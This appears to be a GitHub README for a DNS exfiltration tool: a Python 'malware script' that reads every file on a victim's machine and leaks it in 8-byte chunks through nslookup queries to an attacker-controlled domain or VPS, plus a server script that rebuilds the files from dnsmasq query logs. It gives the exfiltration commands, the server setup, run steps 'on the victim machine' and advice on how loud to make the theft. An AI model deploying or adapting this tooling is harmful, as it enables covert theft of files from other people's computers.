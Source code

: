 # DnsExfiltration

I do not take any responsibility for your usage

**First you need to know how a DNS works and what DNS Exfiltration stands for...**

There are two scripts:
	
	1) Malware script that steal all the files from the PC that runs it
	2) DNS server script that recomposes all the victim files 


The first script goes through the file system and It "slowly" send a part of this to a malicious DNS server. I say slowly because for each DNS query this script exfiltrate 8 byte of information.

if you are authoritative for a certain domain you have to set the script in order to execute:
	
	:~$ nslookup x.payload."yourDomain"
	
	for example:
	
	:~$ nslookup x.payload.xor.com

if You are not authoritative, You have just to configure a VPS like a DNS query forwarder and then set the script to make it run:

	:~$ nslookup x.payload."oneDomanin" "MaliciousVpsIP"

	for example:

	:~$ nslookup x.payload.xor.com 172.50.100.150


The payload length is more of 8 byte but It contains 8 byte of one file content + the file part number, the file part number is used to recompose the file parts on the DNS:
	
	A payload may be one of this:
		0 + fileName
		1 + first 8 byte of the file
		2 + the next 8 byte of the file
		3 + again 8 byte ....

From these payloads the malicious DNS script will be able to create and fill the exfiltrated file





## CONFIGURE DNS QUERY FORWARDER:
If you as me can not go to the Delegation Authority to become authoritative for a certain domain, You have to configure a VPS like a DNS query forwarder. I have used 'dnsmasq' demon, you have to configure it:
	
	Open /etc/dnsmasq.conf and append:
		log-queries
		log-facility=/tmp/dnsmasq.log
	These tells dnsmasq to save all the DNS query in a specific file that will be read by the DNS server side script





## HOW TO RUN:
1) Add your domain or the VPS IP in the "exfiltrator.py" malware script.
2) If you are authoritative configure your DNS, if you are not I suggest You to create a VPS and configure dnsmaq as I explain before.
3) Configure the right path in the "composer.py" DNS side script. You have to tell the script where It has to read all the query log. Just to be sure you have understood: Write the path You have set in the DNS configuration or dnsmasq configuration.
4) To have a try, run on the DNS server "composer.py" [ **:~$ python composer.py** ] and then run(or make it run) "exfiltrator.py" [ **:~$ python exfiltrator.py** ] script on the victim machine.
5) Wait and see 

As you can see, the malwares script wait 1 second for each query and wait 1 second for each file passed through the file system. These wait are here because i tested this on my slow VPS... you can remove these waiting or keep it, it depends on how much you want be loud.

As you can see from the code, this script supports 1 attack at the same time. This script does not currently work on Windows Systems because Windows use "\" in paths, while here i use "/" (...because i wrote and tested this on Linux...). So if you want to use this on windows make the correct very easy changes... lol 
